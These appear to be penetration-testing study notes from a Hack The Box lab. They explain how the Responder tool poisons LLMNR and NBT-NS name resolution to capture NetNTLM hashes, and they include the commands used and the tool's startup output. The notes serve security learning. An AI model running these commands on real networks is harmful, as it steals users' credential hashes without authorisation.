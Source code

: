 ### **`Responder`**

default
```
set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find LLMNR and NBT-NS traffic
```
```shell-session
AhmaDb0x@htb[/htb]$ responder -I <interface name>
```
scenario: 6 possible way to resolve name to ip
```
user or a system tries to perform a Name Resolution (NR).

The hostname file share's IP address is required.

(C:\Windows\System32\Drivers\etc\hosts) will be checked.

switches to the local DNS cache.

query will be sent to the DNS server that has been configured.

issue a multicast query.

```
assume user search for `\\mysharefoder\` which is wrong
1-all name resolutions will fail
2-machine will send a multicast query to all devices on the network
3- with responder and fake smb server ntlm hash is captured
```shell-session
AhmaDb0x@htb[/htb]$ sudo responder -I ens33
```
```shell-session
[+] Poisoners:                
    LLMNR                      [ON]
    NBT-NS                     [ON]        
    DNS/MDNS                   [ON]   
-------------------------------------------------------------------------------------- 
[+] Servers:         
    HTTP server                [ON]                                   
    HTTPS server               [ON]
    WPAD proxy                 [OFF]                                  
    Auth proxy                 [OFF]
    SMB server                 [ON]                                   
    Kerberos server            [ON]                                   
    SQL server                 [ON]                                   
    FTP server                 [ON]                                   
    IMAP server                [ON]                                   
    POP3 server                [ON]                                   
    SMTP server                [ON]                                   
    DNS server                 [ON]                                   
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]                                   
--------------------------------------------------------------------------------------
[+] HTTP Options:                                                                  
    Always serving EXE         [OFF]                                               
    Serving EXE                [OFF]                                               
    Serving HTML               [OFF]                                               
    Upstream Proxy             [OFF]                                               
--------------------------------------------------------------------------------------
[+] Poisoning Options:                                                             
    Analyze Mode               [OFF]                                               
    Force WPAD auth            [OFF]                                               
```